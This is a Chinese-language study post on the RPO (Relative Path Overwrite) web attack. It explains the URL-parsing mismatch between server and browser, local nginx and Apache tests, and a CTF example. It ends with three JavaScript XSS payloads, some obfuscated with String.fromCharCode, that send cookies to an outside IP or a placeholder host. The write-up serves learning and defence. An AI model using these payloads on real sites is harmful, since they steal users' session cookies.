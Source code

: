 ```yaml
---
title: RPO学习
date: 2019-03-20 09:58:51
tags:
- RPO
---
```

四篇文章，综合参考，才明白道理所在。
文章不分先后
- https://www.freebuf.com/articles/web/166731.html
- https://xz.aliyun.com/t/2220
- https://mp.weixin.qq.com/s/xEBr7JxbSTt11oiBsgc3uw
- https://www.cnblogs.com/p00mj/p/6755000.html
<!--more-->

## 简介
**RPO概念**
RPO (Relative Path Overwrite)相对路径覆盖，作为一种相对新型的攻击方式,由 Gareth Heyes在2014年首次提出，利用的是nginx服务器、配置错误的Apache服务器和浏览器之间对URL解析出现的差异，并借助文件中包含的相对路径的css或者js造成跨目录读取css或者js，甚至可以将本身不是css或者js的页面当做css或者js解析，从而触发xss等进一步的攻击手段。

**简单的来说**
服务器端的配置有问题（可能是rewrite模块的问题），正常例如/aaa/bbb/..%2f这样的url不会被解析成/aaa，但是在此处被解析成了/aaa，这意味着url地址中的%2f被解码后，被web容器识别成目录穿越。这种特性我们我们可以很容易地通过404页面来判断（对于apache2），正常情况如下：
![](/images/19-3-20_RPO学习_简介1.webp)
但是在错误配置的apache2或者nginx中，我们得到的url是/aaa。

## 攻击手法
**前提**
- 相对路径css/js加载
- 错误的apache/nginx配置

**攻击手段**
利用浏览器和服务端解析URL的不一致，利用相对路径加载XSS的事实，构造一个加载我们自己可控的页面，浏览器会将其当作js/css格式加载，导致了XSS攻击。

拿文章中的例子：
1.我们向服务器提交我们想请求的URL
`http://localhost/RPO/test/..%2findex.php`
2.（久经沙场，善于识破伪装的）服务器会把..%2f自动进行URL解码，所以实际上服务器端看到你请求的URL是下面的样子：
`http://localhost/RPO/test/../index.php`
3.我们知道../ 在URL中会被理解成上一层目录，所以服务器实际上认为你访问的是下面的URL，并把index.php的内容返回给（天真的）浏览器
`http://localhost/RPO/index.php`
4.接下来浏览器的工作就是根据URL的路径处理index.php中引用的使用相对地址的脚本，可是万万没想到，浏览器它并不认识..%2f（惊恐脸，说实话，估计它自己都不相信，在它天真的眼中一切都是没有伪装的，它看不破%2f的伪装),于是URL在它眼里依旧是那时（青涩的）模样：
`http://localhost/RPO/test/..%2findex.php`
5.此时无知的浏览器已经把..%2findex.php当成了一个文件，可它还是严格按照脚本的要求加载当前目录下的a.js文件，而对它来说现在的当前目录已变成了test，自然而然test目录下的a.js就被成功加载了。

在观看文章中对于CTF一场比赛中为什么会把
`http://39.107.33.96:20000/index.php/view/article/17776/static/js/jquery.min.js`
中`17776`识别为js文件，一直存在猜测但是不敢确定。在HenceTech的文章中明确指出了是配置问题。
![](/images/19-3-20_RPO学习_攻击手法1.png)

## 本地测试
https://www.freebuf.com/articles/web/166731.html
文章中k0rz3n自己本地搭了2个环境进行测试，我也按照文章的步骤自己搭了2个本地环境。

**第一个环境：apache和nginx的差异**
![](/images/19-3-20_RPO学习_本地测试1.png)
apache无法识别%2f，但是nginx可以。但是apache在存在.htaccess文件进行URL重写的话，可以传入`%252f`代替`\`

**本地进行RPO攻击测试**
1. nginx
![](/images/19-3-20_RPO学习_本地测试2.png)

2. apache
![](/images/19-3-20_RPO学习_本地测试3.png)
![](/images/19-3-20_RPO学习_本地测试4.png)
如图，就是使用`%252f`代替了`\`，参考[AllowEncodedSlashes](http://www.laruence.com/2010/10/26/1768.html)
这里解释下，为什么`3.html`文件会被当成`js`文件。
因为在加载`3.js`文件的url地址为：`http://localhost/RPO/index.php/page/3/3.js`,在url重写中，此次URL返回的内容如上图1是3.html的内容（经过apache重写），又因为是`script`标签引用的，所以会被当成`js`文件解析。

## payload
文中攻击的payload:
```javascript
(new Image()).src = String.fromCharCode(104,116,116,112,58,47,47,53,52,46,50,51,53,46,50,51,52,46,54,56,58,50,51,51,47)+document.cookie;
```
```javascript
    var iframe = document.createElement("iframe");
    iframe.src = "/QWB_f14g/QWB/";
    iframe.id = "frame";
    document.body.appendChild(iframe);
    iframe.onload = function (){
         var c = document.getElementById('frame').contentWindow.document.cookie;
        var n0t = document.createElement("link");
        n0t.setAttribute("rel", "prefetch");
        n0t.setAttribute("href", "http://xx.xx.xx.xx?flag=" + c);
        document.head.appendChild(n0t);
    }
```
```javascript
var iframe = document.createElement(String.fromCharCode(105,102,114,97,109,101));
iframe.src = String.fromCharCode(47,81,87,66,95,102,108,52,103,47,81,87,66,47);
iframe.id = String.fromCharCode(102,114,97,109,101);
document.body.appendChild(iframe);
iframe.onload = function (){
    var c = document.getElementById(String.fromCharCode(102,114,97,109,101)).contentWindow.document.cookie;
var n0t = document.createElement(String.fromCharCode(108,105,110,107));
n0t.setAttribute(String.fromCharCode(114,101,108), String.fromCharCode(112,114,101,102,101,116,99,104));
n0t.setAttribute(String.fromCharCode(104,114,101,102), String.fromCharCode(47,47,53,52,46,50,51,53,46,50,51,52,46,54,56,58,50,51,51,47,63,102,108,97,103,61) + c);
document.head.appendChild(n0t);
}
```